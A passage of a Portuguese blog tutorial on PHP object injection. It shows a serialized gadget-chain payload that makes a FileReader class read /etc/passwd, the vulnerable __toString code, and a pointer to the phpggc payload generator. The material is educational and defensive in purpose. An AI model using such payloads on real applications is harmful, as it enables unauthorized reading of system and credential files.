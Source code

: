 Que resulta em:

```
O:13:"App\UserTheme":1:{s:11:"extraThemes"%3BO:14:"App\FileReader":1:{s:8:"fileN
ame"%3Bs:11:"/etc/passwd"%3B}}
```

Então conseguimos executar o código que está dentro de `App\UserTheme::__toString`, alcançando a injeção de objeto via via um gadget.

```php
class FileReader {
	protected $fileName;

	public function __toString()
	{
		if (!file_exists($this->filename)) {
			return "File don't exists";
		}

		return file_get_contents($this->filename);
	}
}
```

A utilização da propridade `$this->extraThemes` com um valor arbitrário dentro da classe `UserThemes` nos permite "triggar" a vulnerabilidade

<div style="text-align:center"><img src="/images/mindblow.gif" /></div>

Então essa vulnerabilidade não se limita apenas ao contexto da aplicação, pelo contrário... é possível abusar de bibliotecas instaladas para que outros tipos de ataques sejam alcançados.
E pensando nisso foi criado a ferramenta ([phpggc][phpggc] que é especializada nesse tipo de payload utilizando as mais diversas técnicas com gadget chains, que possui diversas bibliotecas/frameworks de mercado mapeadas. É possível obter diversos payloads com estratégias diversas de encoding/bypass via linha de comando (no qual já contribui :))
A ferramenta hoje possui uma vasta quantidade de bibliotecas já mapeadas:


[serialize-function]: https://www.php.net/manual/en/function.serialize.php
[unserialize-function]: https://www.php.net/manual/en/function.unserialize.php
[wakeup-method]: https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup
[destruct-method]: https://www.php.net/manual/pt_BR/language.oop5.decon.php#object.destruct
[owasp]: https://owasp.org
[tostring-method]: https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.tostring
[local-file-inclusion]:  https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
[phpggc]:  https://github.com/ambionics/phpggc
[owasp-poo]:  https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[code-reuse-paper]:  https://www.ei.ruhr-uni-bochum.de/media/emma/veroeffentlichungen/2014/09/10/POPChainGeneration-CCS14.pdf